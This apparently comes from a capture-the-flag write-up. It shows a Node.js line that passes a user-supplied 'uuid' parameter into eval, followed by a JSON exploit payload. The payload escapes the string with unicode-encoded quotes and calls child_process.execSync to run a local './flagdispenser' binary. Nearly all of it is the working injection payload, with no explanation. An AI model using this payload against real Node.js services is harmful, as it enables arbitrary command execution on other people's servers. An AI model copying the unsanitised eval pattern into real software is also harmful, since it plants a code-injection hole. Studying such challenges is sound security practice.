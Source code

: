 #### eval

Given:

```
eval('\"'+params.uuid+'\"')
````

Exploit:

```
{ "uuid": "\u0022+require(\u0022child_process\u0022).execSync(\u0022./flagdispenser\u0022)+\u0022 12345678-1234-5678-1234-567812345678" }
```
